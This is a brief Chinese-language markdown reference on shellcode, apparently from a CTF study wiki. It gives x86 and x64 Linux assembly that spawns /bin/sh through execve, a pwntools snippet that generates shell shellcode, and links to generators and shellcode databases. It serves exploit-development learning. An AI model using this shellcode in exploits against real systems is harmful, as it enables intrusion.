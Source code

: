 # Shellcode

## 编写

```asm
# linux/x86 execve("/bin/sh", 0, 0)
global _start
_start:
    xor  edx, edx ;; argv = 0
    xor  ecx, ecx ;; envp = 0
    push ecx
    push "/sh"
    push "/bin"
    mov  ebx, esp ;; pathname = "/bin/sh"
    mov  al, 0xb  ;; execve NR
    int  0x80     ;; syscall
```

```asm
# linux/x64 execve("/bin/sh", 0, 0)
global _start
_start:    
    mov  rbx, "/bin/sh"
    push rbx
    push rsp
    pop  rdi
    xor  esi, esi
    xor  edx, edx
    push 0x3b
    pop  rax
    syscall
```

设置参数并将系统调用的 NR(number) 写入指定寄存器后触发中断/syscall即可. 具体使用方式请参考 [Linux 系统调用](https://publicki.top/syscall.html).  

!!! info "CTF"
    可能限制系统调用的使用, 此时需要编写专门的 shellcode 只通过可用的系统调用完成任务.  

## 生成

- 利用 [ALPHA3](https://github.com/TaQini/alpha3) 生成由可见字符集构成的 shellcode.
- 利用 [MSF](./Metasploit.md) 生成 shellcode.
- 利用 pwntools 生成特定架构和系统的 shellcode.

    ```py
    from pwn import *
    context(log_level = 'debug', arch = 'i386', os = 'linux') # linux/x86
    shellcode = asm(shellcraft.sh())
    ```

## 拓展

- [Exploit Database Shellcodes](https://www.exploit-db.com/shellcodes)
- <http://shell-storm.org/shellcode/>
